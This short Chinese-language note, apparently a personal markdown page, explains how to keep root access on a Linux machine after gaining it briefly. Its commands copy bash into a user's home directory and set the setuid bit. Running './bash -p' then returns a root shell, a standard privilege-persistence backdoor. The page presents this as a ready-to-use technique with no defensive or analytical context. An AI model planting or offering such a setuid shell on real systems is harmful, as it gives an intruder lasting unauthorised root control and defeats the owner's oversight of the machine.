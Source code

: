 # 保留root权限
在一台Linux机器上,拥有普通用户权限.如果短暂的获得了root身份,如何将获得的权限保留下来.
1. 赋予bash命令`s`权限
    ```bash
    # 以root身份运行
    cp -p $(readlink -f $(which bash)) /home/test/
    chmod u+s /home/test/bash
    ```
2. 运行`./bash -p`即可